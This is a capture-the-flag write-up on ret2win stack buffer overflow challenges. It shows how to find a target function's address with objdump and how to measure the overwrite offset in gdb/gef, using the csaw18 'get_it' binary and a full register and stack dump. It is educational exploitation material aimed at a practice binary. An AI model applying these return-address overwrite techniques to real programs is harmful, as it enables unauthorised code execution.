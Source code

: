 All of these challenges are very similar so theirs no point in have 4 of the same writeups.
The general idea behind these challenges includes using a buffer overflow to overwrite a certain value to get a flag or a shell. This is usually done in a controlled manner by counting the offset in gdb and then writing the exact address. 

## How to get the address of a function
Sometimes we know which function we want to jump to because they will give us a shell or cat the flag. To find the address we just need to run the following command 
```bash 
objdump -d <binary name> | grep <Func Name>
```

EX: In csaw18_geit we can run the following command to get the address of the function. 
```bash 
 ~/turbo-octo-pancake/N/s/r/csaw18_gedit    main  objdump -d get_it| grep shell 
00000000004005b6 <give_shell>:
```
## How to find offset for overflow

This differs depending on what you are trying to do but this technique works most of the time. First, we open the file in gdb and then enter in a recognizable string to find. Once the program breaks as can use search-pattern to find the address of that string on the stack. Then we run info frame to find the address that the instruction pointer points to. We then subtract the two values to find the offset 

EX: Csaw18_Getit- Offset is 0x28
```gdb
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:     push   rbp
   0x00000000004005c8 <+1>:     mov    rbp,rsp
   0x00000000004005cb <+4>:     sub    rsp,0x30
   0x00000000004005cf <+8>:     mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave
   0x00000000004005f7 <+48>:    ret
End of assembler dump.
gef➤  break *0x00000000004005f1
Breakpoint 1 at 0x4005f1
gef➤  run
Starting program: /home/ex4722/turbo-octo-pancake/Nightmare/stack_smashing/ret2win/csaw18_gedit/get_it
Do you gets it??
STRING123

Breakpoint 1, 0x00000000004005f1 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffd9d0  →  "STRING123"
$rbx   : 0x0000000000400600  →  <__libc_csu_init+0> push r15
$rcx   : 0x00007ffff7f99800  →  0x00000000fbad2288
$rdx   : 0x0
$rsp   : 0x00007fffffffd9c0  →  0x00007fffffffdae8  →  0x00007fffffffde83  →  "/home/ex4722/turbo-octo-pancake/Nightmare/stack_sm[...]"
$rbp   : 0x00007fffffffd9f0  →  0x0000000000000000
$rsi   : 0x333231474e495254 ("TRING123"?)
$rdi   : 0x00007ffff7f9c4e0  →  0x0000000000000000
$rip   : 0x00000000004005f1  →  <main+42> mov eax, 0x0
$r8    : 0x00007fffffffd9d0  →  "STRING123"
$r9    : 0x0
$r10   : 0x77
$r11   : 0x246
$r12   : 0x00000000004004c0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd9c0│+0x0000: 0x00007fffffffdae8  →  0x00007fffffffde83  →  "/home/ex4722/turbo-octo-pancake/Nightmare/stack_sm[...]"      ← $rsp
0x00007fffffffd9c8│+0x0008: 0x0000000100400600
0x00007fffffffd9d0│+0x0010: "STRING123"  ← $rax, $r8
0x00007fffffffd9d8│+0x0018: 0x0000000000400033  →   add BYTE PTR [rax+0x0], al
0x00007fffffffd9e0│+0x0020: 0x00007fffffffdae0  →  0x0000000000000001
0x00007fffffffd9e8│+0x0028: 0x0000000000000000
0x00007fffffffd9f0│+0x0030: 0x0000000000000000   ← $rbp
0x00007fffffffd9f8│+0x0038: 0x00007ffff7e00b25  →  <__libc_start_main+213> mov edi, eax
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005e4 <main+29>        mov    rdi, rax
     0x4005e7 <main+32>        mov    eax, 0x0
     0x4005ec <main+37>        call   0x4004a0 <gets@plt>
 →   0x4005f1 <main+42>        mov    eax, 0x0
     0x4005f6 <main+47>        leave
     0x4005f7 <main+48>        ret
     0x4005f8                  nop    DWORD PTR [rax+rax*1+0x0]
     0x400600 <__libc_csu_init+0> push   r15
     0x400602 <__libc_csu_init+2> push   r14
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "get_it", stopped 0x4005f1 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005f1 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern STRING123
[+] Searching 'STRING123' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6026b0 - 0x6026bb  →   "STRING123\n"
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rw-
  0x7fffffffd9d0 - 0x7fffffffd9d9  →   "STRING123"
gef➤  info frame
Stack level 0, frame at 0x7fffffffda00:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7e00b25
 Arglist at 0x7fffffffd9f0, args:
 Locals at 0x7fffffffd9f0, Previous frame's sp is 0x7fffffffda00
 Saved registers:
  rbp at 0x7fffffffd9f0, rip at 0x7fffffffd9f8
### 0x7fffffffd9d0 - 0x7fffffffd9f8  = 0x28
```
